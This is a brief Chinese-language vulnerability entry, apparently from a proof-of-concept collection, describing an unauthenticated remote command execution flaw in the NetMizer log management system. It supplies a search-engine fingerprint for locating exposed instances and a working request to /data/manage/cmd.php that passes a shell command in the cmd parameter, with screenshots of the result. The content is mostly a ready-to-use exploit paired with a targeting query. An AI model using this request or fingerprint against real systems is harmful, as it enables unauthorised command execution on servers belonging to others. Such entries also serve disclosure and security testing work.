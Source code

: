 # NetMizer 日志管理系统 cmd.php 远程命令执行漏洞

## 漏洞描述

NetMizer 日志管理系统 cmd.php中存在远程命令执行漏洞，攻击者通过传入 cmd参数即可命令执行

## 漏洞影响

```
NetMizer 日志管理系统
```

## 网络测绘

```
title="NetMizer 日志管理系统"
```

## 漏洞复现

登录页面

![image-20220519175506872](./images/202205191755197.png)

验证POC

```
/data/manage/cmd.php?cmd=id
```

![image-20220519175604237](./images/202205191756275.png)